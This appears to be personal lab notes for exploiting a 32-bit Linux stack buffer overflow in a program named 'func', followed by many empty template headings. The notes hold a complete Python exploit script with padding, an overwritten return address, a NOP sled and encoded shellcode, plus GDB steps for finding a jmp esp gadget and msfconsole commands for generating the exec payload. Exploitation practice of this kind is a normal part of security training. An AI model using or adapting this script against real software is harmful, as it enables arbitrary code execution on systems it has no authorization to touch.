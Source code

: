 ### Run GDB against the program you want to view
#### disass command to see what the code is performing and the memory spaces
    gdb func
    disass getuserinput
_____________________________________________________________________________________________________________________
### Create a python script to run against the program in gbd.
#### Buffer to see when the program breaks, EIP to jump to the point in memory, nop sled to push your code into executable space in memory, print to view the output as you update the script. THIS SCRIPT IS FULLY UPDATED!
    buffer = "A" * 62
    
    #eip = "BBBB"
    eip = "\x59\x3b\xde\xf7"
    
    #0xf7de3b59 "\xf7\xde\x3b\x59" "\x59\x3b\xde\xf7"
    #0xf7f588ab "\xf7\xf5\x88\xab" "\xab\x88\xf5\xf7"
    #0xf7f645fb "\xf7\xf6\x45\xfb" "\xfb\x45\xf6\xf7"
    
    nop = '\x90' * 5
    
    buf =  b""
    buf += b"\xd9\xc6\xba\x7b\x1d\x43\x22\xd9\x74\x24\xf4\x5e"
    buf += b"\x31\xc9\xb1\x0b\x83\xc6\x04\x31\x56\x15\x03\x56"
    buf += b"\x15\x99\xe8\x29\x29\x05\x8a\xfc\x4b\xdd\x81\x63"
    buf += b"\x1d\xfa\xb2\x4c\x6e\x6c\x43\xfb\xbf\x0e\x2a\x95"
    buf += b"\x36\x2d\xfe\x81\x4e\xb1\xff\x51\x26\xd9\x90\x30"
    buf += b"\xa5\x70\x6f\xe4\x66\x0b\x8e\xc7\x09"
    
    print(buffer + eip + nop + buf)
_____________________________________________________________________________________________________________________
### Open the gdb enviroment to unset the memory.
#### and the find command to locate the memory thats vulnerable to update your script.
    env - gdb func
    show env
    unset LINES
    unset COLUMNS
    find /b 0xf7de2000 , 0xf7ffe000 , 0xff , 0xe4
_____________________________________________________________________________________________________________________
### Open gdb against the program func
#### testing the script continuously as you UPDATE IT.
    gdb func
    run <<< $(python test.py)
_____________________________________________________________________________________________________________________
### Run msfconsole to get the shellcode to run the command in the script.
#### step will take several attempts of running the last command and pasting into script.
    msfconsole
    use payload/linux/x86/exec
    show options
    set CMD whoami
    show options
    generate -b "\x00" -f python               #copy the output and place into python script may take a few tries.
_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
### 
#### 

_____________________________________________________________________________________________________________________
